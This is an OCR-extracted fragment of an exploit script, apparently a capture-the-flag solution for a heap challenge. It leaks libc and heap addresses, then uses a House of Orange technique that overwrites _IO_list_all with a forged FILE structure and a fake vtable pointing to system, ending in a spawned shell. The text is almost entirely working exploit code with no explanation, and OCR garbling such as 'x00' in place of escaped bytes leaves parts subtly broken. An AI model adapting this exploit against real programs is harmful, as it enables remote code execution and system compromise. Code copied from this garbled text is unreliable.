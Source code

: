 ```
    sla('Choice:','1'*0x500)

    #leak libc
    alloc(0x37,'x01'*0x37) #idx 1 0x030
    view(2)
    ru('Content: ')
    libc = uu64(r(6))
    lg('libc',libc)
    libc_base = libc - 0x3c4b78
    lg('libc_base',libc_base)
    _IO_list_all = libc_base + 0x3c5520

    #leak heap
    alloc(0x17,'x00'*0x17)#idx 5 0x070  = idx 2
    alloc(0x17,'x08'*0x17)#idx 12 0x090
    delete(12)
    delete(5)
    view(2)
    ru('Content: ')
    heap = uu64(r(6))
    heap_base = heap - 0x90
    lg('heap_base',heap_base)

    #house_of_orange
    #now unsorted bin at 0x0b0
    delete(4)
    alloc(0x27,'x00'*0x18+p64(0x41)+'x00'*7) # must keep the fastbin size = 0x41
    lg('_IO_list_all',_IO_list_all)
    fake_file = '/bin/shx00'+p64(0x61) # fake_file
    fake_file += p64(0)+p64(_IO_list_all-0x10) #unsorted bin attack
    fake_file += p64(0)+p64(1) #bypass check
    fake_file = fake_file.ljust(0x38,'x00')
    alloc(0x38,fake_file)
    delete(6)
    payload_1 = 'x00'*0x28 + p64(heap_base+0x1d0) # point to fake_vtable
    payload_1 = payload_1.ljust(0x37,'x00')
    alloc(0x37,payload_1)
    delete(7)
    system = libc_base + 0x045390
    payload_2 = p64(0)*3 + p64(system) # fake_vtable
    payload_2 = payload_2.ljust(0x37,'x00')
    alloc(0x37,payload_2)

    #trigger malloc , get shell()
    sla("Choice:",'1')
    sla(':',str(0x30))


    irt()
```
